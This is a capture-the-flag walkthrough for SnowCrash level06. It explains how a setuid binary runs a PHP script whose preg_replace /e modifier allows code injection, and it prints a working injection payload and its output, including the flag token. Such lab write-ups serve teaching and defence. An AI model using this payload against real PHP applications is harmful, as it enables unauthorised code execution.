 evel 06
========

*	We spawn with a `level06` file in root repository
	```console
	level06@SnowCrash:~$ ls -l
	total 12
	-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
	-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
	level06@SnowCrash:~$ cat level06.php 
	```
	```php
	#!/usr/bin/php
	<?php
	function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
	function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
	$r = x($argv[1], $argv[2]); print $r;
	?>
	```
*	It is quite unreadable so i made it better in `level06.php`
*	When we look in detail, we can see that the executable runs the script of the `level06.php` file
*	More important, in the permissions we can see that `level06` will be executed as `flag06`
*	The script is pretty straight forward:
	> It defines two functions:
	>	- Function y($m): Replaces dots (.) with " x " and @ with " y".
	>	- Function x($y, $z): Reads the content of a file specified by $y, applies some 	transformations to the content, and returns the modified content.

	> It then calls function x() with command line arguments $argv[1] and $argv[2], which are typically provided when the script is executed from the command line.

	> The result of the function call is stored in $r, and it's printed out at the end.
*	The important part here is that the regex has major security issues
	```php
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	```
*	Here the `/e` regex modifier is a deprecated one which allows you to use **PHP** code within your reguler expression, which means whatever is parsed will be part of the program
*	We can use this vulnerability to execute `getflag`
*	So let's create the file argument with the exploit inside :
	```console
	level06@SnowCrash:~$ echo -e "[x {\${exec(getflag)}}]" > /tmp/test1
	level06@SnowCrash:~$ ./level06 /tmp/test1
	PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
	PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
	```

REMEDY
======

The regex modifier `/e` is deprecated for a reason